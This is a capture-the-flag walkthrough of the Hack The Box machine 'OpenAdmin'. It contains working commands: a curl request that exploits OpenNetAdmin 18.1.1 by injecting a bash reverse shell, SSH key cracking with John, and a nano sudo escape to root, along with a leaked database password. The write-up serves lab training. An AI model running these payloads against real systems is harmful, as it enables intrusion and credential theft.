# OpenAdmin - Linux (Easy)

## Summary

This was a relatively straightforward box to compromise with an interesting privilege escalation vector. I was able to get an initial low-level shell and exploit reused database credentials to progress further. Nano is able to be run as sudo and I am able to exploit this to get a root shell. 

## Enumeration

Having added the `$machine_IP` to the `/etc/hosts` file, I used Rustscan to pick up open ports which were then fed to `Nmap` for a more thorough scan

```
rustscan -a $machine_IP -- -A -sV -sC -T4 -v

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open $machine_IP1:22
Open $machine_IP:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
```

This resulted in two ports - 22 (SSH) and 80 (HTTP). I initially targeted Port 80 as SSH isn't usually a priority (I usually try password guessing - admin, root, box name and default passwords and they didn't work this time around).

## Port 80 (HTTP)

Navigating to the landing page on port 80 reveals a base Apache landing page and checking the page source didn't reveal anything interesting.

![gobuster](Images/gobuster.png)

I then ran Gobuster on the target. The `artwork` directory was a standard blog with `/music` also being a lorem ipsum text webpage with not much in the way of interesting findings. I am unable to create an account but the `login` form leads me to an `/ona` directory that wasn't previously there in my Gobuster results. This logs me in as a guest and provides a version number. 

![version](Images/version-number.png)

I then looked for entries in Searchsploit and the [RCE](https://www.exploit-db.com/exploits/47691) for 18.1.1 seems to work great. I slightly tweaked the exploit to include a bash reverse shell that I can pick up with netcat

```
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/$host/9999 0>%261'&xajaxargs[]=ping"  http://$machine_IP/ona/
```

This gives me an initial shell as the `www-data` user. I am lacking sufficient privileges to get a user flag but opening the `/etc/passwd` files tells me that there are 2 other users - Joanna and Jimmy. I can also run `Linpeas.sh` to enumerate the machine. This check indicates that this machine is vulnerable to CVE-2021-4034 (`Polkit`) which I plan on checking for if nothing else pans out. Running Linpeas is very helpful for a multitude of reasons - it tells me that there is another hostname present which provides me with valuable foreshadowing that I might have to do SSH Tunnelling

```
openadmin                                                                                                                 
127.0.0.1 localhost
127.0.1.1 openadmin
```

![ssh-tunnel](Images/ssh-tunneling.png)

It provides some insight into how the potential tunnelling would occur. It also indicates that only Joanna is in the sudoers group and I am able to run `sudo -l`

```
Sudoers file: /etc/sudoers.d/joanna is readable                                                                           
joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

This indicates that I might have to pivot - `www-data` to `Jimmy` to `Joanna` to `root`. One of the files identified in the Linpeas output leaked database credentials 

```
www-data@openadmin:/tmp$ cat /opt/ona/www/local/config/database_settings.inc.php
</opt/ona/www/local/config/database_settings.inc.php                        
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

I was able to use this password to login as Jimmy but as expected, I am unable to access Joanna's directory to view the `user.txt` flag. However, I was able to view the files in `/internal`, namely `main.php` which indicates that that site holds the SSH private key for the Joanna user. 

```<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa'); --> outputs the RSA key to authenticate via SSH
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

The `index.php` file present includes a username and hash for the `jimmy` user which was then cracked with Crackstation

```
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '$hash') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
```

![crackstation](Images/crackstation.png)

Following this, I was able to port forward with SSH 

```
ssh jimmy@$machine_IP -L 52846:localhost:52846
```

Then I was able to login to `http://$machine_IP:52846` and sign in with the `Jimmy` user's credentials to pull the `id_rsa` file

![ssh_key](Images/ssh-key.png)

Since this file was password protected, I had to run `ssh2john` through John the Ripper to crack this hash.

```
ssh2john id_rsa > id_rsa.john

john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
$id_rsa-pass      (id_rsa)
```

![user.txt](Images/user.txt.png)

I was able to use this `id_rsa` key and SSH into the host as `Joanna` and identify a path to escalate privileges to get a root shell

## Privilege Escalation

I was able to run sudo `/bin/nano /opt/priv` to open it in `nano` and then enter `reset; sh 1>&0 2>&0` to enter an escalated terminal session

![nano](Images/nano.png)

## Cert

![cert](Images/cert.png)

